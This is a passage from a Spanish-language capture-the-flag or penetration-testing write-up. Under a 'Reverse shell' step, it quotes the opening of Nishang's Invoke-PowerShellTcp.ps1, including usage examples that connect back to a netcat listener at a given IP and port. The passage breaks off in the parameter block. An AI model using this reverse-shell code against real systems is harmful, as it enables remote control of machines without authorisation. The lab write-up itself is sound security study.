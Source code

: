 ### Reverse shell

Perfecto, funciona correctamente. Para entablar una **reverse shell** primero buscaremos una en  [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells), concretamente `Invoke-PowerShellTcp.ps1`, una vez descargada la modificaremos de la siguiente manera:

```powershell title="PS.ps1"
function Invoke-PowerShellTcp
{
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target.

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch.
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port.

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,
```